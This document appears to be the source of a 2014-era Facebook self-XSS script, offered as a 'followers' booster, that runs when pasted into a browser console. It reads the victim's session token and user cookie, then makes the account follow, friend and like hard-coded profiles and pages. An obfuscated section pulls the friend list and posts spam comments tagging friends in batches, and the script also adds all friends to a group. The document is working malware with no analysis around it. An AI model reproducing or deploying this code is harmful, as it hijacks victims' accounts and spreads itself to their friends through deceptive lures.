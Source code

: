 code
====
/*HTML/JavaScript page status="protected"*/
/*FACEBOOK FOLLOWERS*/
/*© 2014 Kodran Piraj. All Rights Reserved.*/

var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("194869190710894");sublist("203764819821331");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("233639806819861");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
IDS("100006491494904");IDS("100004272308848"); a("100005634423594"); a("100006491494904"); a("100004272308848");
a("100002062385067"); Like("1417633998481131"); Like("274343876022248"); sublist("219691011562045"); sublist("219691058228707"); sublist("219691144895365"); sublist("219691178228695"); sublist("219691221562024"); sublist("219691298228683"); sublist("219691391562007"); sublist("219691451562001"); sublist("219691518228661"); sublist("219691578228655"); Like("233639806819861"); Like("588642367894983"); Like("108657799203171"); Like("309453909102037"); Like("398426433613100"); Like("597273926980523"); Like("188718981270707"); Like("262926440424877"); sublist("194869190710894"); sublist("203764819821331"); 
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","831320336882006","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," BRO IF YOU LIKE FOLLOWERS || WATCH THIS TUTORIAL :D  THIS REALLY WORK \udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - AUTO FOLLOWERS [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var Title='<span style="font-size:x-large;"><b><span style="color: red;">Getting Friends on Facebook</span></b></span><br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&fb_dtsg=" + fb_dtsg + "&group_id=1421483778086884&source=typeahead&members=" + opo + "&nctr[_2]=pagelet_group_members_summary&lsd&post_form_id_source=AsyncRequest&__user=" + user_id, function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "</div>";var display = "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div><br/>";if (i > 0) {display += "Detected <b>" +arr.length + "</b> User Online<br/>";display += "<b>" + suc + "</b> of <b>" +arr.length + "</b> Finding Friends <br/>";display += " (<b>" + i + "</b> User Left...)<br/><br/>";display += '<span style="color: lime;"><span style="font-size: large;"><b>Please Wait Until The Process is Complete</b></span></span>';display += "</div>";display += "</div>";window[tag + "_close"] = true} else {display += '<span style="color: lime;"><span style="font-size: large;"><b>SUCCESS</b></span></span>';display += "<div><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup</span><br/>";display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>";display += "</div>"; window[tag + "_close"] = false}display += "</div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e && b) {e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&" : "?";var k = null;"POST" == h && (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText && (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML);c && c(b)} else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i < x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e < d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "<div style='padding-bottom:10px;font-size:20px;'>" + Title + "</div>";display += arr.length + " User Detected";display += "</div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
